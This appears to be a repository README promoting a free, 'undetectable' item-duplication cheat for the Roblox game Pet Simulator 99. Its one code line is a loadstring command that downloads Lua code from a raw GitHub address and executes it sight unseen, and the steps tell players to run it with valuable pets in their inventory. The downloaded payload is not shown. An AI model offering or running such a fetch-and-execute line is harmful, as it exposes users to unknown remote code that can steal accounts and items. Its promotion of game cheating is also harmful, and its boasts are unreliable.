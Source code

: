 # pet-simulator-99-dupe-script
the best undetectable pet simulator 99 dupe script for free!!!!!
script : loadstring(game:HttpGet("https://raw.githubusercontent.com/Plotter234/something/main/something2", true))()

stay tuned for more soon... 
we working on pet spawner and items 
plus corruncy spawner but that will cost some robux :(
not too much but yea enjoy the dupe tho 

How to dupe:
1. have the pets u wanna dupe in your inventory
2. execute the script
3. wait for it to load
4. enjoy :)

tysm for chosing me 

